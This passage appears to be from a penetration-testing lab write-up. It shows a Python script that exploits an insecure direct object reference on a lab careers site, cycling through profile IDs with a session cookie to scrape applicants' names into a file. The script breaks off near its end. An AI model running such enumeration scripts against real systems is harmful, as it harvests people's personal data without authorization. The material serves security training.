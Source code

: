 ![](attachments/aen_9.png)

I tried it, and it worked!
With this, I can retrieve potential applicants names.
Let's automate with a script.

```python
import requests
from bs4 import BeautifulSoup

base_url = "http://careers.inlanefreight.local/profile"

names = []
headers = {"Cookie": "session=eyJsb2dnZWRfaW4iOnRydWV9.Z2wEiw.Nq_IqJBxVz_px-J8_bKdVDmFmc0"}

for id_value in range(0, 101):
    params = {"id": id_value}
    try:
        response = requests.get(base_url, params=params, headers=headers)

        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')

            if 'Jobs applied by' in response.text:
                start_index = response.text.find('Jobs applied by') + len('Jobs applied by ')
                end_index = response.text.find('</h1>', start_index)
                name = response.text[start_index:end_index].strip()
                names.append(name)
                print(f"Found name: {name} (ID: {id_value})")
        else:
            print(f"Failed to fetch ID: {id_value} (Status: {response.status_code})")
    except Exception as e:
        print(f"Error fetching ID: {id_value} - {e}")

unique_names = list(set(names))
print("\nCollected Names:")
for name in unique_names:
    print(name)

with open("collected_names.txt", "w") as file:
    for name in unique_names:
```